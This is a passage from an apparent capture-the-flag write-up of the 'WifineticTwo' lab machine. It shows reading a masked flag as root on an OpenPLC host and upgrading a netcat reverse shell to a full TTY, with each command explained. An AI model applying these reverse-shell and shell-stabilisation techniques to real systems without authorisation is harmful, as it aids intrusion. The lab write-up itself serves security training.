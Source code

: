![shell received](/assets/images/WifineticTwo/rev-shell-received.png)

Also I can see user.txt in the root directory:

```bash
root@attica03:/root# ls
user.txt
root@attica03:/root# cat user.txt 
04****************************58
```

To have a stabilized tty shell, I will run the following commands:

```bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@attica03:/opt/PLC/OpenPLC_v3/webserver# ^Z
[1]  + 24733 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 24733 continued  nc -lvnp 443
                                    reset xterm
root@attica03:/opt/PLC/OpenPLC_v3/webserver# export TERM=xterm
root@attica03:/opt/PLC/OpenPLC_v3/webserver# export SHELL=bash
root@attica03:/opt/PLC/OpenPLC_v3/webserver# stty rows 50 columns 184
```
* script /dev/null -c bash: Spawns a tty.
* ctrl+z: puts the shell in background for later doing a treatment.
* stty raw -echo;fg: gives the shell back again.
* reset xterm: resets the terminal to give the bash console.
* export TERM=xterm: let do ctrl+l to clean the terminal.
* export SHELL=bash: specifies the system that it's using a bash console.
* stty rows <YOUR ROWS> columns <YOUR COLUMNS>: sets the size of the current full terminal window. It is possible to view the right size for your window running `stty size` in a entire new window on your terminal.
